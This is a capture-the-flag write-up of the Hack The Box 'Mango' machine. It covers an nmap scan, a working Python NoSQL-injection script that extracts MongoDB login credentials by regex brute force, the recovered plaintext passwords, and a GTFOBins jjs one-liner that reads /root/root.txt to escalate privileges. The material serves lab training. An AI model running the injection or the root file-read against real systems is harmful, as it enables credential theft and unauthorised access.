








Mango HTB WriteUp

HTB Mango writeup⌗
Linux ‘Medium’ machine, with an interesting name that reminds me of a certain DB. The process as always: Scan –> Initial foothold –> Own User –> Own Root.
Initial Scan⌗
# added to hosts as 10.10.10.171 Mango
$ sudo nmap -sV -sC -sT -O -o nmapinitial Mango
Scan results
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-14 12:29 CET
Nmap scan report for Mango (10.10.10.162)
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| 256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_ 256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after: 2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=2/14%OT=22%CT=1%CU=37707%PV=Y%DS=2%DC=I%G=Y%TM=5E4684E
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:07%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.00 seconds
We got an OpenSSH server, and a webserver running Apache on ports 80 and 443.
The website on port 443 likes suspiciously similar to a famous search engine, lets try to search up some terms.

It not seems to be any exploitable thing here, so let’s see the analytics zone at the upper-right menu. We reach a webpage with an interactive sheet. Neither seems to be something to exploit here.

Initial foothold⌗
At this moment, we pay more attention at the nmap results and we see that in 443 port we have a Common name that is not shown: staging-order.mango.htb. If we take a look at the website certificate, we can see that it is a subdomain of the webpage. We add it to /etc/hosts file:

Now, browsing staging-order.mango.htb we get a login page:

If we analyze the page, we will found that it is running a MongoDB as database. Given that it is a NoSQL database, the typical injections won’t work. We can use the script allocated here and, modifying it a little bit, we obtain two users and their respective passwords:
Modified script:
import requests
import string
url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
print("Extracting password of "+username)
params = {"username":username, "password[$regex]":"", "login": "login"}
password = "^"
while True:
for c in possible_chars:
params["password[$regex]"] = password + c + ".*"
pr = requests.post(url, data=params, headers=headers, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
password += c
break
if c == possible_chars[-1]:
print("Found password "+password[1:].replace("\\", "")+" for username "+username)
return password[1:].replace("\\", "")
def get_usernames():
usernames = []
params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
for c in possible_chars:
username = "^" + c
params["username[$regex]"] = username + ".*"
pr = requests.post(url, data=params, headers=headers, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
print("Found username starting with "+c)
while True:
for c2 in possible_chars:
params["username[$regex]"] = username + c2 + ".*"
if int(requests.post(url, data=params, headers=headers, verify=False, allow_redirects=False).status_code) == 302:
username += c2
print(username)
break
if c2 == possible_chars[-1]:
print("Found username: "+username[1:])
usernames.append(username[1:])
break
return usernames
for u in get_usernames():
get_password(u)
Found username: mango
Extracting password of admin
Found password t9KcS3>!0B#2 for username admin
Extracting password of mango
Found password h3mXK8RhU~f{]f5H for username mango
If we try to SSH login using admin user, we can not get access. So we try with mango and the obtained password… Bingo!
 

Owning user⌗
If we take a look at /home/mango we found nothing. It means that the user.txt file is probably allocated at admin home. We will try to switch from mango to admin using su command. We launch the command:
mango@mango:~$ su admin
Password:
$ /bin/bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
admin@mango:/home/mango$
user.txt:
Own root⌗
Once we have owned the user, we should elevate to root and obtain root.txt.
Enumeration⌗
First thing we must do to know how to continue the elevation is to enumerate the potentially exploitable binaries at the system. To do this, we will use the htbenum tool. Seeing the results of the scanner, we have two interesting binaries: jjs and run-mailcamp.

Both of them have an entry at GTFOBins, so we will try to read the file /root/root.txt. First we will try to get the root file exploiting jjs. According to GTFOBins, if we execute this script, we can read the file that we indicate.
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
We execute it at mango machine and… voila! We have root flag!
